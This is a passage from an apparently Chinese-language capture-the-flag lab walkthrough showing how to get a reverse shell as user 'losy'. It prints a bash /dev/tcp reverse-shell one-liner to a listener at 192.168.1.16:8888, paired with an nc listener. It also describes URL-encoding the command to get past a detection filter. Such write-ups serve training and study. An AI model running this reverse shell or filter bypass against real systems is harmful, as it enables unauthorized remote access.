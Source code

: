 

#### 反弹用户losy的shell

构造`bash`反弹

```shell
bash -i >& /dev/tcp/192.168.1.16/8888 0>&1
```

然后先在kali中使用`nc`监听8888端口，再执行上面的命令

发现不行，然后在命令前加上`bash -c`表示后面的字符，以`bash`执行，所以后面需要把前面的命令使用引号括起来



![](./pic-2/13-1.jpg)



不过还是不行，可能有检测。尝试进行编码，测试能否绕过

使用`url`编码后，成功反弹

![](./pic-2/13-2.jpg)



查看该用户的家目录下有什么`ls -al`，发现和之前一样，有历史记录，查看

![](./pic-2/14.jpg)
